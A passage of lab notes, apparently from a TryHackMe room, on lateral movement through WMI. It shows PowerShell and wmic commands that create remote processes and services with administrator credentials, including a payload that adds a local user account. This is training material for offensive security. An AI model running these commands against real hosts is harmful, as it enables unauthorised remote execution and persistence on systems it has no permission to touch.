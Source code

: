 We can also perform many techniques discussed in the previous task differently by using Windows Management Instrumentation (WMI). WMI is Windows implementation of Web-Based Enterprise Management (WBEM), an enterprise standard for accessing management information across devices.

In simpler terms, WMI allows administrators to perform standard management tasks that attackers can abuse to perform lateral movement in various ways.

## Connecting to WMI From Powershell
Before being able to connect to WMI using Powershell commands, we need to create a *PSCredential* object with our user and password. This object will be stored in the `$credential` variable.

```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

We then proceed to establish a WMI session using either of the following protocols:
- **DCOM:** RPC over IP will be used for connecting to WMI. This protocol uses port 135/TCP and ports 49152-65535/TCP, just as explained when using sc.exe.
- **Wsman:** WinRM will be used for connecting to WMI. This protocol uses ports 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS).

To establish a WMI session from Powershell, we can use the following commands and store the session on the `$Session` variable, which we will use throughout the room on the different techniques:
```powershell
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName {TARGET} -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

The `New-CimSessionOption` cmdlet is used to configure the connection options for the WMI session, including the connection protocol. The options and credentials are then passed to the `New-CimSession` cmdlet to establish a session against a remote host.


## Remote Process Creation Using WMI
- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCERPC)
    - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)  
- **Required Group Memberships:** Administrators

We can remotely spawn a process from Powershell by leveraging Windows Management Instrumentation (WMI), sending a WMI request to the Win32_Process class to spawn the process under the session we created before:
```powershell
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command
}
```

Note:
	 WMI won't allow you to see the output of any command but will indeed create the required process silently.

On legacy systems, the same can be done using wmic from the command prompt:
```shell-session
wmic.exe /user:Administrator /password:Mypass123 /node:{TARGET} process call create "cmd.exe /c calc.exe" 
```


## Remote Services Creation with WMI
- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCERPC)
    - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- **Required Group Memberships:** Administrators

We can create services with WMI through Powershell. To create a service called THMService2, we can use the following command:
```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "THMService2";
DisplayName = "THMService2";
PathName = "net user munra2 Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
```

We can get a handle on the service and start it with the following commands:
```powershell
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"

Invoke-CimMethod -InputObject $Service -MethodName StartService
```

 We can stop and delete the service with the following commands:
 ```powershell
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```


## Remote Scheduled Tasks Creation with WMI
- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCERPC)
    - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- **Required Group Memberships:** Administrators

We can create and execute scheduled tasks by using some cmdlets available in Windows default installations:


  
 